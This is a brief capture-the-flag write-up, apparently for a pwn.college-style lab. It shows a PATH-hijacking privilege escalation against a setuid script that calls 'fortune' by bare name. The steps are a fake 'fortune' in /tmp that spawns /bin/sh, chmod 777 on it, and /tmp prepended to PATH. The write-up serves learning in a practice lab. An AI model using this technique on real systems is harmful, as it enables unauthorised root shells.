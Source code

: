 Arizona CTF 2025
Tags: [[Symbolic links]]

We see a program with suid bit set, on using cat cmd on the program we see
```sh
#!/opt/pwncollege/sh

fortune 
```

Create a file in tmp & name it fortune 
```sh
#!/bin/bash

/bin/sh
```
`Chmod 777 fortune `to make it executable 

Then add this to the path
```
export PATH=/tmp:$PATH
```
Then go to challenge directory and run the program 